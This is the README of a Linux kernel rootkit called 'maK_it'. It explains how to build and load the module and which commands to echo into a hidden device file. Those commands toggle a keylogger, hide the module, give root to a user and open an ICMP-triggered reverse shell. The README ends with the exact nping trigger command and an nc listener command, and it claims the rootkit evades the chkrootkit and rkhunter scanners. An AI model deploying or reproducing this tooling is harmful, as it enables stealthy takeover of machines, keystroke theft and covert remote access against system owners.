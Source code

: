 maK_it-Linux-Rootkit

========================

This is a simple rootkit implementation for the project described
at the following location

http://r00tkit.me


This rootkit avoids both the chkrootkit & rkhunter scanners as intended.

It is fully compatible with the latest version of CentOS 6.5


To run simply run "make" in the folder with the Makefile.

install with 
insmod maK_it.ko

Remove with 
rmmod maK_it


===============
Demo Commands
===============
Echo any of the following into /dev/.maK_it


debug - turn /var/log/messages debug messages on or off.

keyLogOn - turn the keylogger on

keyLogOff - turn the keylogger off

modHide - hide the module (hidden by default in insmod)

modReveal - reveal the module (so you can rmmod it)

rootMe - give root privileges to user

shellUp - Turn on a packet sniffer for reverse shell icmp

shellDown - Turn off the packet sniffer daemon

To trigger the reverse shell, listen on a port of your choice
on your own machine. The shell will be returned if you send an 
icmp packet with the right trigger word, your ip/port.

Example: nping --icmp -c 1 -dest-ip 127.0.0.1 --data-string 'maK_it_$H3LL 127.0.0.1 31337'

A port listener can be simply opened on your machine using nc -l 31337
